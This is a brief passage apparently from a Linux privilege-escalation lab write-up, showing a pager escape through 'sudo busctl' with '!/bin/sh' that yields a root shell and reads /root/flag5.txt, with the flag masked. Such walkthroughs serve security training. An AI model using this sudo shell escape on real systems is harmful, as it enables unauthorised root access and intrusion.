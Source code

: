 ![GTFOBins - `busctl` (Shell)](./assets/screenshots/linux_privilege_escalation_skills_assessment_03.png)

```
tomcat@nix03:/var/lib/tomcat9$ sudo busctl --show-machine

!/bin/sh
```

```
# id

uid=0(root) gid=0(root) groups=0(root)
```

```
# cat /root/flag5.txt

LLPE{***************************** 📌
```

---
---
